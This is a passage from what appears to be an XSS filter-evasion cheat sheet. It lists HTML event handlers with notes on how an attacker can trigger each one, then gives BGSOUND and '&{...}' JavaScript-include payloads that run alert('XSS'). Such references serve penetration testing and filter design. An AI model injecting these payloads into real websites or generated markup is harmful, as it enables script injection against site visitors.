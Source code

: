 ```
onResize() (user would resize the window; attacker could auto initialize with something like: <SCRIPT>self.resizeTo(500,400);</SCRIPT>)
onResizeEnd() (user would resize the window; attacker could auto initialize with something like: <SCRIPT>self.resizeTo(500,400);</SCRIPT>)
onResizeStart() (user would resize the window; attacker could auto initialize with something like: <SCRIPT>self.resizeTo(500,400);</SCRIPT>)
onResume() (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
onReverse() (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
onRowsEnter() (user or attacker would need to change a row in a data source)
onRowExit() (user or attacker would need to change a row in a data source)
onRowDelete() (user or attacker would need to delete a row in a data source)
onRowInserted() (user or attacker would need to insert a row in a data source)
onScroll() (user would need to scroll, or attacker could use the scrollBy() function)
onSeek() (the onreverse event fires when the timeline is set to play in any direction other than forward)
onSelect() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onSelectionChange() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onSelectStart() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
onStart() (fires at the beginning of each marquee loop)
onStop() (user would need to press the stop button or leave the webpage)
onStorage() (storage area changed)
onSyncRestored() (user interrupts the element’s ability to play its media as defined by the timeline to fire)
onSubmit() (requires attacker or user submits a form)
onTimeError() (user or attacker sets a time property, such as dur, to an invalid value)
onTrackChange() (user or attacker changes track in a playList)
onUndo() (user went backward in undo transaction history)
onUnload() (as the user clicks any link or presses the back button or attacker forces a click)
onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
seekSegmentTime() (this is a method that locates the specified point on the element’s segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)
```

BGSOUND

```js
<BGSOUND SRC="javascript:alert('XSS');">
```

## & JavaScript includes

```js
<BR SIZE="&{alert('XSS')}">
```
